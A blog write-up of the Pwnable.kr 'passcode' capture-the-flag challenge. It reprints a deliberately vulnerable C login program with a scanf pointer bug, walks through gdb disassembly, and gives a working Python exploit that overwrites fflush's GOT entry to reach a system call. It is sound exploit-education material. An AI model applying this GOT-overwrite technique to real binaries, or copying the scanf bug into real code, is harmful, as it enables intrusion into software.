 ```yaml
---
layout: post
title:  "Passcode - Write-Up [Pwnable.kr]"
date:   2016-08-5 14:30:00 +0200
categories: security wargame pwnable
---
```


[Pwnable.kr](http://pwnable.kr) is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. 

In this blog post I'll write-up how I managed to pass the "passcode" challenge.


### Code

``` c
#include <stdio.h>
#include <stdlib.h>

void login() {
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if (passcode1==338150 && passcode2==13371337) {
		printf("Login OK!\n");
		system("/bin/cat flag");
	} else {
		printf("Login Failed!\n");
		exit(0);
	}
}

void welcome() {
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main() {
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

### Audit

Following the flow of the program: in the `welcome` function we enter our name, and in the `login` function we enter `passcode1` and `passcode2`, if they match respectively `338150` and `13371337` we'll get the shell.

Auditing the code, we can easily see a bug in the `login` function: the program is not passing to the `scanf` functions the addresses of `passcode1`/`passcode2`, so possibly it leads to arbitrary 4 bytes write if we can control somehow the value of passcodes.

Let's see at binary level if we can control the passcodes values:

```nasm
$ gdb passcode
(gdb)
(gdb) set disassembly-flavor intel
(gdb) disas welcome
Dump of assembler code for function welcome:
... (output truncated for brevity) ...
   0x0804862f <+38>:	lea    edx,[ebp-0x70]
   0x08048632 <+41>:	mov    DWORD PTR [esp+0x4],edx
   0x08048636 <+45>:	mov    DWORD PTR [esp],eax
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
... (output truncated for brevity) ...
```

Here we save our name into `$ebp-0x70`, the buffer is 100 bytes so it ends at __($ebp-0x70)+0x64__.

Ok, now we move on, and we jump to the `login` function, in order to see if we have any chance to control the passcodes values form the `name` buffer previously allocated.

```nasm
(gdb) disas login
Dump of assembler code for function login:
... (output truncated for brevity) ...
   0x080485c5 <+97>:	cmp    DWORD PTR [ebp-0x10],0x528e6
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
... (output truncated for brevity) ...
```

At this point __$ebp__ is the same as in the `welcome` function, so we can compare the two values: `(($ebp-0x70)+0x64)-($ebp-0x10)` = __4__. Great, we can control `passcode1` ($ebp-0x10) from the `name` buffer.

The goal here is to see where the `system` call is placed in our binary.

```nasm
(gdb) disas login
Dump of assembler code for function login:
... (output truncated for brevity) ...
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
... (output truncated for brevity) ...
```

It's at `0x80485E3` which in decimal is __134514147__. Now we need to jump there overriding the `GOT` of `fflush` with our address.

Let's see where the `fflush`'s relocation address is:

```nasm
$ readelf -r passcode | grep fflush
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
```

### Exploit


```python
$ python -c "print 'A'*(100-4) + '\x04\xa0\x04\x08' + '134514147'" > /tmp/passcode-poc
```

We fill the `name` buffer with padding but the latest 4 bytes (which are also the same as `passcode1`) that we fill with the `fflush` GOT address. Then we add the address of the `system` call which will be called instead of `fflush`.


```
$ cat /tmp/passcode-poc | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
***********************************************
Now I can safely trust you that you have credential :)
```

### Conclusion

Make sure you pass the right arguments to functions (in this case `scanf` needs a pointer to an `int` and not the `int` value itself).
